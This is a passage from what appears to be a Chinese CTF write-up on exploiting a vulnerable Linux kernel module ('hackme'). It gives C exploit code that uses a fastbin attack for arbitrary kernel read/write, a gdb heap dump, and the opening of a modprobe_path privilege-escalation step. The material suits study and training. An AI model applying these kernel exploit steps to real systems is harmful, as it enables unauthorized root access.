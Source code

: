 ```c
	hackme_addr = ((size_t*)mem)[3];				// hackme addr
	printf("[*] Leaked hackme addr: 0x%lx\n", hackme_addr);	
```

##### 任意地址写

得到hackme模块基地址后，利用相同的`fastbin attack`修改fd为hackme下的`pool`变量地址。

分配得到pool所在的地址，利用该堆块修改pool内容，实现任意地址读写。

利用代码：

```c
	// alloc hackme's pool
	long pool_addr = hackme_addr + 0x2400;
	free(2);
	free(5);									// origin 3

	*(size_t*)mem = pool_addr + 0x100;
	write_object(4, mem, 0x100, -0x100);		// overwrite origin 3's fd


	alloc_object(7, mem, 0x100);
	alloc_object(8, mem, 0x100);				// pool's addr
```

此时的堆分布：

```c
gdb-peda$ x/20gx $1               
0xffffffffc0136400:	0xffff996ec017b500	0x0000000000000100
0xffffffffc0136410:	0x0000000000000000	0x0000000000000100
0xffffffffc0136420:	0x0000000000000000	0x0000000000000100
0xffffffffc0136430:	0x0000000000000000	0x0000000000000100
0xffffffffc0136440:	0xffff996ec017b900	0x0000000000000100
0xffffffffc0136450:	0x0000000000000000	0x0000000000000100
0xffffffffc0136460:	0xffffffff8f011050	0x0000000000000100
0xffffffffc0136470:	0xffff996ec017b800	0x0000000000000100
0xffffffffc0136480:	0xffffffffc0136500	0x0000000000000100
0xffffffffc0136490:	0x0000000000000000	0x0000000000000000
```

可以看到，pool偏移0x80处的指针内容指向`pool + 0x100`；成功地分配得到了pool所在的地址进入堆块，利用该堆块*p*可以实现任意地址读写。

例如想要读写地址`addr`，只需要利用p将`addr`和`length`写入到pool中去，再利用write \ read指定的idx即可。

##### 权限提升

到目前为止，我们可以利用原漏洞达到任意地址读、写的目的，接下来需要利用这些完成权限提升。

* modprobe_path

  `modprobe`是用于将可加载模块加载\卸载到内核的，该程序的路径保存在内核全局变量`modprobe_path`中，默认是`/sbin/modprobe`，如下

  ```shell
  $ cat /proc/sys/kernel/modprobe 
  /sbin/modprobe
  
  /home/pwn # cat /proc/kallsyms | grep modprobe_path
  ffffffff84c3f960 D modprobe_path
  
  gdb-peda$ x/s 0xffffffff84c3f960
  0xffffffff84c3f960:	"/sbin/modprobe"
  ```
